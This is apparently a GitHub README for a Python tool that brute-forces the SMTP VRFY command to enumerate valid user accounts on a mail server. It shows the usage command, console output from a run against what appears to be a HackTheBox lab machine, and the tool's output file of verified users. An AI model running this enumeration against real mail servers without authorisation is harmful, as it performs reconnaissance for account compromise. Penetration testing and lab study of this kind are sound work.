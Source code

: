 # SMTP-VRFY-Bruteforce
Enumerate users using SMTP's VRFY command

If the connection is lost (i.e. the target drops the connection after too many attempts) it will reconnect and continue bruteforcing where it left off.

Generates output file automatically.

```console
python smtp_vrfy_brute.py 10.129.80.226 xato-net-10-million-usernames.txt

Lines remaining in user list: 8295455
Connecting to: 10.129.80.226
Connection response: 220 debian.localdomain ESMTP Postfix (Debian/GNU)

+ Verified user: michael 
++ Verified users list: michael
23 | VRFY james           

* Connection Lost - Reconnecting *
++ Verified users list: michael

Lines remaining in user list: 8295432
Connecting to: 10.129.80.226
Connection response: 220 debian.localdomain ESMTP Postfix (Debian/GNU)

+ Verified user: mail    
++ Verified users list: michael, mail
46 | VRFY joseph          

* Connection Lost - Reconnecting *
++ Verified users list: michael, mail

Lines remaining in user list: 8295409
Connecting to: 10.129.80.226
^CTraceback (most recent call last):
  File "/home/kali/Documents/htb/Trick/smtp_vrfy_brute.py", line 36, in <module>
    response = s.recv(2048)
KeyboardInterrupt

```


## Output File
```console
cat smtp-vrfy-bruteforce.out      
Target: 10.129.80.226
Wordlist used: xato-net-10-million-usernames.txt
Target header: 220 debian.localdomain ESMTP Postfix (Debian/GNU)

Verified Users:
michael
mail
```
